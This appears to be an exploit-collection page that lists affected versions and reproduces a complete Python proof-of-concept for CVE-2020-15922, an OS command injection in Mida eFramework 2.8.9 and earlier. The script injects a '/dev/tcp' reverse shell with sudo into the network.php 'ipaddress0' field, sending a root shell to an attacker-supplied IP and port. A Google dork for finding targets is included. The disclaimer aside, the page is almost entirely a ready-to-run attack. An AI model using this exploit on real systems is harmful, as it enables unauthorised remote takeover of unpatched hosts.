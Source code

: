 <languages />

影响版本
--------

    Version: <= 2.8.9

EXP
---

    # Exploit Title: Mida eFramework 2.8.9 - Remote Code Execution
    # Google Dork: Server: Mida eFramework
    # Date: 2020-08-27
    # Exploit Author: elbae
    # Vendor Homepage: https://www.midasolutions.com/
    # Software Link: http://ova-efw.midasolutions.com/
    # Reference: https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    # Version: <= 2.8.9
    # CVE : CVE-2020-15922


    #! /usr/bin/python3
    # -*- coding: utf-8 -*-

    import argparse
    import base64
    import random
    import requests
    import subprocess
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    def print_disclaimer():
        print("""
        ---------------------
        Disclaimer:
        1) For testing purpose only.
        2) Do not attack production environments.
        3) Intended for educational purposes only and cannot be used for law
    violation or personal gain.
        4) The author is not responsible for any possible harm caused by this
    material.
        ---------------------""")


    def print_info():
        print("""
    [*] PoC exploit for Mida eFramework 2.8.9 PDC (CVE-2020-15922)
    [*] Reference:https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    [*] Vulnerability: OS Command Injection RCE in PDC/pages/network.php -
    Reverse Shell
        ./CVE-2020-15922 http://192.168.1.60:8090/PDC/pages/network.php rev-IP
    rev-PORT """)

    def run_cmd(url,ip,port):
        rev_shell = "sudo bash -i >& /dev/tcp/{0}/{1} 0>&1".format(ip,port)
        print("[+] Reverse shell: {0}".format(rev_shell))
        data = {
            "submit":"True",
            "ipaddress0":"; {0}".format(rev_shell),
            "netmask0":"",
            "gateway0":"",
            "dns1":"",
            "dns2":""
        }
        # exec rev shell
        print("[*] Starting reverse shell to {0} {1}...".format(ip,port))
        try:
            r = requests.post(url,data=data,verify=False,timeout=1)
        except requests.exceptions.ReadTimeout:
            print("[?] ...check if it worked")
            pass

    def main():
        print_info()
        print_disclaimer()
        parser = argparse.ArgumentParser()
        parser.add_argument("target", type=str,
            help="the complete target URL")
        parser.add_argument("ip", type=str,
            help="the ip address for reverse shell")
        parser.add_argument("port", type=str,
            help="the port for reverse shell")
        args = parser.parse_args()
        run_cmd(args.target, args.ip, args.port)

    if __name__ == '__main__':
        main()
